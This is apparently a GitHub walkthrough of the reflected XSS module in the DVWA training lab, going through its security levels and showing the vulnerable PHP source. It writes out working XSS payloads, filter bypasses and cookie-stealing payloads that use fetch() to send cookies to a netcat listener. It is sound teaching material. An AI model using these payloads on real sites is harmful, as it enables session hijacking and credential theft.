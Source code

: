 # XSS (Reflected)

## About

> "Cross-Site Scripting (XSS)" attacks are a type of injection problem, in which malicious scripts are injected into the otherwise benign and trusted web sites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application using input from a user in the output, without validating or encoding it.
> 
> An attacker can use XSS to send a malicious script to an unsuspecting user. The end user's browser has no way to know that the script should not be trusted, and will execute the JavaScript. Because it thinks the script came from a trusted source, the malicious script can access any cookies, session tokens, or other sensitive information retained by your browser and used with that site. These scripts can even rewrite the content of the HTML page.
> 
> Because its a reflected XSS, the malicious code is not stored in the remote web application, so requires some social engineering (such as a link via email/chat).

Source: DVWA Documentation

## Low Security
The page is asking for an input of our name and then is reflected back on the page. So if we type `Harry` the application will say `Hello Harry`.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/XSS(Reflected)/!images/xssr1.png?raw=true">
</p>

But if we type instead an XSS payload, then this will happen:

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/XSS(Reflected)/!images/xssr2.png?raw=true">
</p>

The payload used: `Hacked"<script>alert(1)</script>`.<br/>
A lot of XSS payloads can be found online, some will work, some will not, depends on the filters implemented. The idea is that instead of input some valid text, we input some javascript that will be executed by the application.<br/>
Because our input is also reflected in the URL, we can send it to anyone and once is accessed, the script will be executed.<br/>
The URL: `http://localhost/DVWA/vulnerabilities/xss_r/?name=Hacked%22%3Cscript%3Ealert%281%29%3C%2Fscript%3E#`.<br/>

In our payload, the impact is not harmful, we only triggered an alert box with number 1. This payload is usually used to confirm the presence of an XSS attack.<br/>
But more dangerous things can be done, for example rewriting the source code in order to ask the user to insert his password to continue. But the password is sent to the attacker.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/XSS(Reflected)/!images/xssr3.png?raw=true">
</p>

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/XSS(Reflected)/!images/xssr4.png?raw=true">
</p>

The source code:
```php
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Feedback for end user
    echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
}

?> 
```
For this level, we have no restrictions implemented.

Let's also solve the objective of the challenge, which is: `Steal the cookie of a logged in user.`.<br/>
We can use the following payload: `<script>fetch('http://127.0.0.1:4444?cookie=' + btoa(document.cookie) );</script>`.
This will send the cookie of the current user to the attacker address, in a base64 format. In order to listen for this message, we can start a listener with netcat: `nc -lvnp 4444`.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/XSS(Reflected)/!images/xssr6.png?raw=true">
</p>

## Medium Security
For Medium level we have this filter implemented:
```php
$name = str_replace( '<script>', '', $_GET[ 'name' ] ); 
```
This is not enough, because we can easily bypass it using uppercase letters: `<sCRipt>alert('XSS')</sCRipt>`.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/XSS(Reflected)/!images/xssr5.png?raw=true">
</p>

## High Security
For High level we have this filter implemented:
```php
$name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] ); 
```
Again, this is not a good implementation, because there are many XSS payloads that are not using the `<script>` tag.<br/>
The vulnerability can be executed using: `"<img src=x onerror=alert('XSS')>`. This payload will trigger an error with alert box, if the source of the image is not found.

For the objective of the challenge, we can use a netcat listener on port 4444 and the following payload: `<img src=x onerror='fetch("http://127.0.0.1:4444/?cookie=" + document.cookie)'>`.

## Impossible Security
Source code:
```php
<?php

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $name = htmlspecialchars( $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello {$name}</pre>";
}

// Generate Anti-CSRF token
generateSessionToken();

?> 
```
For the Impossible level, we have Anti-CSRF token implemented and our input is verified with `htmlspecialchars()` function. This function will convert the special HTML characters to not be interpreted as HTML valid code.<br/>
In this case, we will not be able to use any special characters to alterate the application's code. 
